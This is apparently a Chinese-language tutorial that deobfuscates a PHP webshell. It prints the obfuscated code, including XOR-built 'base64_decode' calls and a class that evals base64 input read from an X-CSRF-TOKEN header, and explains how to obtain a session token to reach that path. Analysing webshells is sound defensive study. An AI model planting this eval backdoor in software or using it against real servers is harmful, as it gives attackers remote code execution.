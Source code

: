```php
if (isset($_SERVER["HTTP_TOKEN"])) {
	$t=substr(md5(rand()),16);
	$_SESSION['token']=$t;
	header('Token:'.$_SESSION['token']);
} else {
	if(!isset($_SESSION['token'])) {
		return;
	}
	$v=$_SERVER['HTTP_X_CSRF_TOKEN'];
	$b='DQHNGW'^'&0;+qc';
	$b.= '_dec'.chr(111).'de';
	$v=$b($v."");
}
```

由1.6讲到的知识点，结合PHP代码可得：

>if (!isset($_SESSION['token'])) 这行代码首先检查当前会话（session）中是否存在名为 "token" 的变量。
>$_SESSION 是用于在PHP中存储会话数据的关联数组，通常用于在不同页面之间共享数据。isset函数用于检查变量是否已经被设置，如果变量存在并且有值，返回 true，否则返回 false。

所以根据知识点，我们要先给服务器发一个 `Token` 值，这样就可以进入IF，服务器就会生成一个随机的令牌（token）并将其存储在会话（session）中，并通过HTTP头部返回给客户端

但 `Token` 只需要获取一次就行了，因为服务器生成并返还令牌（token）后，会存在会话（session）中，简单理解就是服务器的内存当中，后续的使用就不要添加`Token` 值了
 **【因为如果再获取，令牌（token）又会重新生成，就无法进入else的后续步骤，这一步可能有点绕，不明白的师傅不妨上手实践一下哈哈】** 

```php
$v=$_SERVER['HTTP_X_CSRF_TOKEN'];
$b='DQHNGW'^'&0;+qc';
$b.= '_dec'.chr(111).'de';
$v=$b($v."");
```

由8.1讲到的异或和0.1讲到的拼接赋值，以上代码可转化为：

```php
$v = $_SERVER['HTTP_X_CSRF_TOKEN'];
$b = "base64_decode";
$v = $b($v."");
```

意思就是，从HTTP请求头获取名为 "HTTP_X_CSRF_TOKEN" 的值，并进行Base64解密再讲值重新赋给 `$v`

接下来我们再来看类 `class E` :

```php
class E {
		public function __construct($p) {
			$c=('ZSLQWR'^'82?4af')."_d"."eco".chr(108-8)."e";
			$e = $c($p);
			eval(null.$e."");
		}
	}
```

同样根据相关知识点，我们可以将以上代码转化为以下：

```php
class E {
		public function __construct($p) {
			$c = "base64_decode";
			$e = $c($p);
			eval(null.$e."");
		}
	}
```
